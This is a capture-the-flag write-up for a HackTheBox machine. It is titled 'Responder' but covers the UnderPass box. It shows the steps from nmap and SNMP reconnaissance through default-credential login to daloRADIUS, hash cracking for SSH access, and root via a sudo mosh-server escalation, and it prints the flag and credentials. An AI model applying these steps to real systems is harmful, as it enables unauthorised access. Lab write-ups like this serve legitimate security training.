


# HackTheBox - Starting Point: Responder


## Write-up: 

### Recon 

First to gather a maximum of informations on our target, let's run a nmap scan :

```bash 
✗ nmap -A 10.10.11.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-01 22:31 CET
Nmap scan report for 10.10.11.48
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We obseve that we have a webserver running on the port 80 and a ssh server on the 22.

When we go on the webserver, we find a Apache2 Default Page. 
To have more information about the Apache version we can try to get a random page a see the error output.


We find that the Apache version is the 2.4.52, the same found with the nmap scan.

The sub-directory enumeration (gobuster) found nothing.

Let's do a udp nmap scan 

```bash
✗ sudo nmap -sU --top-ports 100 10.10.11.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-01 22:43 CET
Nmap scan report for 10.10.11.48
Host is up (0.030s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 127.10 seconds
```

We found 3 open ports.
- 161: snmp 
- 1812: radius  (filterd)
- 1813: radacct (filtered)

Let's find more about snmp.
SNMP (Simple Network Management Protocol) is a widely used protocol for network management and monitoring. It allows network administrators to collect information, monitor the health and performance of devices, and make changes to device configurations. Here's a brief presentation of SNMP:

- [ressource](https://www.fortinet.com/fr/resources/cyberglossary/simple-network-management-protocol)

### Snmp 

Gather informations about snmp server :
Let's use `snmpwalk` tool :
```bash
✗ snmpwalk -v 2c -c public 10.10.11.48    
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (389658) 1:04:56.58
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (390846) 1:05:08.46
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 02 01 16 01 01 00 2B 00 00 
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 216
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Then, we could analyse it :
- OS : Linux underpass 5.15.0-126-generic
- Potencial user : steve@underpass.htb
- daloradius : gestion tools for FreeRADIUS. We might found a authentification server.
- Location : Nevada, U.S.A. but not Vegas
- BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0 --> use of lv, and information about kernel version

After search for a cve about this kernel version, i've found a privilege escalation vuln [exploit-db](https://www.exploit-db.com/exploits/50808)

### Daloradius 

Let's doing a subdirectory enumeration on our daloradius tool :

```bash
➜  UnderPass git:(main) ✗ gobuster dir -u http://10.10.11.48/daloradius/ -w ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,css,js,php,md,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.48/daloradius/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,css,js,php,md,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/library              (Status: 301) [Size: 323] [--> http://10.10.11.48/daloradius/library/]
/doc                  (Status: 301) [Size: 319] [--> http://10.10.11.48/daloradius/doc/]
/app                  (Status: 301) [Size: 319] [--> http://10.10.11.48/daloradius/app/]
/contrib              (Status: 301) [Size: 323] [--> http://10.10.11.48/daloradius/contrib/]
/setup                (Status: 301) [Size: 321] [--> http://10.10.11.48/daloradius/setup/]
```
Let's search more deep into our website :

```bash
✗ gobuster dir -u http://10.10.11.48/daloradius/app/ -w ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,css,js,php,md,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.48/daloradius/app/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              md,txt,html,css,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 276]
/.php                 (Status: 403) [Size: 276]
/common               (Status: 301) [Size: 326] [--> http://10.10.11.48/daloradius/app/common/]
/users                (Status: 301) [Size: 325] [--> http://10.10.11.48/daloradius/app/users/]
/operators            (Status: 301) [Size: 329] [--> http://10.10.11.48/daloradius/app/operators/]
```

Let's see the /users endpoint : 



We find a login page, let's find defaults credentials and try them :



They don't work.

we might work on the seci=ond interesting endpoit : `http://10.10.11.48/daloradius/app/operators/'
We find another login page, and defaults credential works.


After some search, on the users panel we found the svcMosh user password :


So let's try to connect to ssh server with these credentials. It don't work
but it's maybe that the given password is a hash.
We can crack it with [crackstation](https://crackstation.net/) website :


### SSH 

Now, we can etablish a connection on the ssh server with these credentials : svcMosh:underwaterfriends and find the user flag.

```bash 
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt 
835fb7be2b3e4ff14dabb2f9475c2cac
```

### Root flag

we can find wich command we can run with sudo :
```bash
$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
following this [example](https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246) of privilege escalation.

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 buHqA9xrHzu1T2gT4kYAOw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2070]
svcMosh@underpass:~$ MOSH_KEY=buHqA9xrHzu1T2gT4kYAOw mosh-client 127.0.0.1 60001
```
And we obtain a root shell


